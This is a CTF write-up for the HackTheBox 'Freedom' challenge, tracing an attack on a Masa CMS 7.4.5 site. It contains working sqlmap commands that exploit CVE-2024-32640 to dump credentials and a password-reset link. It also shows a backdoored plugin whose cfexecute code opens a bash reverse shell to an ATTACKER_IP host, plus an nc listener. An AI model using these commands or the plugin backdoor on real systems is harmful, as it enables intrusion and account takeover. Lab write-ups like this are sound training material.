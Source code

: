 ```yaml
---
layout: default
title: "HackTheBox University CTF 2024 - Freedom Writeup"
permalink: /writeups/ctf/HTB-University-CTF-2024/freedom
---
```


<h1><ins>HackTheBox University CTF 2024: Freedom Writeup</ins></h1>

**Date:** 18/12/2024\
**Author:** [acfirthh](https://github.com/acfirthh)

**Challenge Name:** Freedom\
**Difficulty:** Medium

## Reconaissance
### NMAP Scan
![NMAP Scan](images/nmap_scan.png)

From the NMAP scan, I immediately noticed that it had most of the common ports open that a Domain Controller would have *(also the hostname was **DC1**...)*, as well as having port 80 (HTTP) open hosting a website that NMAP was able to fetch the **robots.txt** entries from.

The website had the domain name **freedom.htb**.

> Add **freedom.htb** and **DC1.freedom.htb** to the /etc/hosts file.

## Initial Look at the Website
I started up **BurpSuite**, activated **foxy proxy** in my browser and visited **http://freedom.htb**.

![Freedom.htb Website](images/website.png)

I was met with this rather funky blog with 4 blog posts. I looked back at the NMAP scan, specifically at the entries in the **robots.txt** file and saw that `/admin/` was there, so of course, I browsed to that directory.

![Masa CMS Login](images/admin_page.png)

There was a login page for what seemed to be **"Masa CMS"**, but there wasn't a version number anywhere on the page, so looking at **BurpSuite** to see request and response headers sent in requests, I spotted that the version number was disclosed in a response header.

![Masa CMS Version](images/masa_cms_version.png)

The version running is **"Masa CMS 7.4.5"**, now equipped with this information, I took to the internet to research for potential vulnerabilities and exploits that have been found and disclosed for this version.

### SQL Injection
I discovered that there was a recent [SQL Injection](https://projectdiscovery.io/blog/hacking-apple-with-sql-injection) vulnerability found in **Masa CMS** marked as **CVE-2024-32640** with a [Proof-of-Concept](https://www.pizzapower.me/2024/11/13/mura-masa-cms-sql-injection-cve-2024-32640/) Python script freely available.

Instead of using this PoC, I decided to just use **sqlmap** and quickly threw together a command to use:
```
sqlmap -u "http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject" --data "object=displayregion&contenthistid=x%5C'*--+Arrv&previewid=1" --level 3 --risk 2 --method POST --dbms=mysql --timeout=10 --technique=T --batch -D dbMasaCMS -T <table> -C <column/s>
```

**Masa CMS** is also open-source, meaning the entire *(unmodified)* source code is available on their [GitHub repository](https://github.com/MasaCMS/MasaCMS).

Looking through the source code, I found a **.sql** file containing all of the table and column names created in the database during the intial setup! There was a table named **tusers** which contained the columns: **Fname**, **Lname**, **UserName**, **Email**, and **Password**.\
*(Amongst quite a few other columns, but I focussed on these mainly)*

I modified my **sqlmap** command to dump the data stored in these columns from the table, it revealed that the **Password** column contained **bcrypt** hashes. I initially attempted to crack these hashes, however I was unable to crack any of them.

## Initial Access
I looked back at the login page on the website and spotted a *"Forgot Password"* feature, I thought that if I clicked that and entered the email address of the admin user (`admin@freedom.htb`), then I would be able to find the password reset link in the database somewhere. I looked back through the source code and found a table named **tredirects** with a column called **URL**, this was the only reference I was able to spot to a URL in any of the tables.

So, I tested it out. I clicked the *"Forgot Password"* button, entered the admin's email address, and then used **sqlmap** to dump the data stored in the **URL** column in the **tredirects** table.

![Admin Password Reset](images/admin_password_reset.png)

```
sqlmap -u "http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject" --data "object=displayregion&contenthistid=x%5C'*--+Arrv&previewid=1" --level 3 --risk 2 --method POST --dbms=mysql --timeout=10 --technique=T --batch -D dbMasaCMS -T tredirects -C URL --dump
```

![Password Reset Link](images/password_reset_link.png)

I copied the retrieved link and pasted it into my browser, it opened up a profile editor for the admin user, I changed the password and submitted it, then it automatically logged me in after the password change! **SUCCESS!**

After reading back the post made by the researchers that discovered the SQL injection vulnerability, I saw that they referenced that it would be possible to get **RCE** by uploading a malicious plugin. Doing some more research, I found out that **Masa CMS** and **Mura CMS** are pretty similar and use the same plugins and language, so I downloaded a pre-made **Mura CMS** plugin and modified the code to run malicious code when installed.

#### Backdooring the Plugin
When reading the NMAP scan results, I spotted that it said that the web server was running on **Apache** for **Ubuntu** which I thought was a bit odd because it was supposedly a Domain Controller which are usually **Windows Server** based. But I just thought that maybe it was running in a **Docker** container or something similar.

I modified the `index.cfm` page in the plugin to contain only this code:

```
<cfexecute name="/bin/bash" arguments="-c '/bin/bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1
'" variable="data" timeout="10" />
<cfdump var="#data#">
```

I then modified the `Application.cfc` to only include the `index.cfm` and the `settings.cfm` files. This would mean that it only executes my malicious code and doesn't do anything I don't want it to.

```
component accessors=true output=false {

	property name='$';

	include 'plugin/settings.cfm';

	public any function onApplicationStart() {
		return true;
	}

	public any function onRequestStart(required string targetPage) {
		return true;
	}

	public void function onRequest(required string targetPage) {
		include 'index.cfm';
	}

	public void function onSessionStart() {
	}

	public void function onSessionEnd() {
	}

}
```

After modifying the code, I simply zipped it up using the command:\
`zip -r plugin.zip ./MuraPlugin`

After zipping up the plugin contents, I browsed to the plugin upload page on the admin console and uploaded my modified plugin.

![Plugin Upload](images/upload_plugin.png)

I started a listener on my machine:\
`nc -nvlp 4444`

I then clicked *"Deploy"* and then clicked the *"UPDATE"* button to run my plugin. I checked my listener but I didn't have a callback just yet, so I visited the index page of the plugin in my browser:\
`http://freedom.htb/plugins/MuraPlugin/index.cfm`

Again, I checked my listener and I had a shell as... **root!**

![Root Shell](images/root_shell.png)

I looked about the file system but didn't find any flags, I also noticed that it was NOT a **Docker** container.

I then ran the command `mount` to view any mounted filesystems and spotted a filesystem mounted at `/mnt/c`. I changed directory into it and saw that it was a **Windows** filesystem! This must have been where all of the Domain Controller processes were being run. But, I had full root access to the filesystem so I just got the flags from the **Administrator** user's desktop and **j.bret** user's desktop!

## Final Words
This route was definitely unintended as there was no need for any sort of privilege escalation and it gave immediate root access to the filesystem. But nevertheless, it was still an incredibly fun challenge with plenty of enumeration needed to find what was required to exploit the machine.
